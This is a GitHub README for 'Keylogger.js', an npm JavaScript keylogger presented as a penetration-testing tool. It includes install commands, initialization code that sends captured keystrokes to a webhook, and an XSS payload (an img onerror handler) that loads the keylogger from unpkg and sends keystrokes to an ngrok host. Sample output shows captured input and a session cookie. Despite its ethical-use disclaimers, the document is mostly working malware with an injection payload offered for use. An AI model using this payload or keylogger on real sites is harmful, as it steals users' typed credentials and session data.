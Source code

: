 # Keylogger.js
**Keylogger.js** is a lightweight JavaScript library for ethical hacking, penetration testing, and security research. It allows security professionals to capture keyboard events and send them securely to a specified webhook for analysis. Designed for ethical use only, this library serves as a tool for demonstrating vulnerabilities in applications and enhancing system security.

## ⚠️ Disclaimer
This library is intended **only for ethical purposes** such as security research and testing within authorized environments. Unauthorized use, including any malicious or illegal intent, is strictly prohibited. The author disclaims all responsibility for any misuse of this software.

## Features
- **Lightweight**: keylogger.js is a lightweight library that can be easily integrated into any web application.
- **Secure**: All captured keyboard events are base64 encoded and sent securely to a specified webhook.
- **Customizable**: Developers can customize the library to suit their needs, including changing the webhook URL and adding additional functionality.
- **Modular**: Built using modern TypeScript for robust type safety and developer experience.

## Installation
You can install **Keylogger.js** via npm or yarn:

```bash
# Using bun
bun install @mihnea.dev/keylogger.js
# Using npm
npm install @mihnea.dev/keylogger.js
# Using yarn
yarn add @mihnea.dev/keylogger.js
```

## Usage
To use keylogger.js in your web application, you need to import the library and initialize it with your webhook URL:

```typescript
import Keylogger from '@mihnea.dev/keylogger.js';

/* Initialize the Keylogger with your webhook */
const _: Keylogger = new Keylogger('https://your-webhook-url.com');
```

Should you embed the script directly in your HTML file, you can initialize the library as follows:

```html
<script>
    import Keylogger from 'https://unpkg.com/@mihnea.dev/keylogger.js/dist/index.js';
    const keylogger = new Keylogger('https://your-webhook-url.com', false);
    console.log('Keylogger initialized:', keylogger);
</script>
```

## Configuration Options
Keylogger.js supports several configuration options that can be passed to the constructor:
- `webhook`: The URL to which the captured keyboard events will be sent.
- `logAll`: A boolean flag indicating whether all keyboard events should be logged (default: `false`).

## Example 
This example demonstrates how to use Keylogger.js in a controlled testing environment by integrating the Python server, exposing it using Ngrok, and embedding the library into a vulnerable webpage to simulate XSS.

### 1. Start the Python Webhook Server
The Python server included in [`./examples/server.py`](./examples/server.py) listens for incoming requests from Keylogger.js. It decodes Base64-encoded payloads and logs them. To start the server, run the following command:

```bash
python3 examples/server.py
```

### 2. Expose the Server Using Ngrok
To expose the Python server to the internet, use Ngrok. Run the following command to start an HTTP tunnel:

```bash
ngrok http 3000
```

### 3. Embed Keylogger.js in a Webpage
This step demonstrates embedding Keylogger.js into a vulnerable webpage as part of an XSS simulation.

```html
<img src="invalid.jpg" onerror="
    const script = document.createElement('script');
    script.src = 'https://unpkg.com/@mihnea.dev/keylogger.js/dist/index.js';
    document.body.appendChild(script);
    script.onload = () => {
        const _ = new Keylogger('https://<random-id>.ngrok.io', false);
    };
">
```
![keylogger js](https://github.com/user-attachments/assets/716178d9-5a57-4bdd-9bc6-2788a705c05f)

### Observing Results:
1. The Keylogger.js library captures keystrokes and sends them to the webhook.
2. The Python server decodes the Base64-encoded payload and logs the captured keystrokes.
```bash
Decoded Payload: {"type":"keypress","value":"a","session":{...}}
Parsed JSON:
{
    "type": "enter",
    "value": "asdf",
    "session": {
        "id": "unique-session-id",
        "created_at": "2024-11-29T18:00:00Z",
        "user_agent": "Mozilla/5.0",
        "session_cookie": "master-kw-session"
    }
}
```

## Security Considerations
- Ensure you use this library only in authorized and controlled environments.
- Do not use this tool for any illegal or unauthorized activity.
- Always notify and gain consent from stakeholders before testing.

## Contributing
Contributions are welcome! Feel free to open issues or submit pull requests to improve the library.

## License
This project is licensed under the MIT License. See the [LICENSE](./LICENSE) file for more information.
